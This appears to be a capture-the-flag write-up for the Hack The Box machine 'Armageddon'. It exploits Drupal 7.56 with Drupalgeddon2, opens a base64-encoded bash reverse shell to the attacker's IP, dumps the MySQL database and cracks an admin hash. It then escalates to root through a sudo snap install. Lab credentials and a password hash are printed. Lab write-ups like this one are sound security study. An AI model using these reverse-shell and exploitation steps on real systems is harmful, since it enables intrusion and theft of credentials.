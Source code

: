 ## Info 
### Credential
- `brucetherealadmin:booboo`
- `drupaluser:CQHEy@9M*m23gBVj` (MySQL)

### Web
- Drupal 7.56
	- Authenticated RCE

### System
- hostname: `armageddon.htb` (found in `apache`'s env var)
### MySQL
- `drupaluser:CQHEy@9M*m23gBVj`

## Path
### User
1. Website is built using `Drupal 7.56`, which has a RCE if we can login.
```
$ searchexploit Drupal 7.56
--------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                         |  Path
--------------------------------------------------------------------------------------- ---------------------------------
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)               | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)            | php/webapps/44542.txt
```
2. After googling for 'drupal 7 exploit', I found Drupalgeddon2, which cab be used to RCE without authentication. So use it to get shell.
```
/drupalgeddon2.rb $ip                                                                 
armageddon.htb>> whoami
apache
```
3. Found db credential in `/var/www/html/sites/default/settings.php`
```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
4. Get shell by url encoded base64 reverse shell
```
$ echo "YmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4zLzgwIDA%2BJjEiCg%3D%3D" | base64 -d | tee /dev/shm/rev.sh
$ sh /dev/shm/rev.sh
```
5. Dump SQL to `/var/www/html`, and download it to local.
```
$ mysqldump -u drupaluser -p --databases drupal > d.sql

# local
$ wget $ip/d.sql
```
6. Found `brucetherealadmin`'s password hash in sql dump, and use john to crack it.
```
$ grep --binary-files=text bruce d.csv
1,brucetherealadmin,$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt,admin@armageddon.eu,"","",filtered_html,1606998756,1607077194,1607076276,1,Europe/London,"",0,admin@armageddon.eu,"a:1:{s:7:""overlay"";i:1;}"
```
7. Login as Bruce and get user flag.
### Root
8. We cam run `snap install` with sudo, so use the method GTFOBins provided to get root flag.
```
$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
$ sudo snap install xxxx_1.0_all.snap --dangerous --devmode                                                 
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX)
```

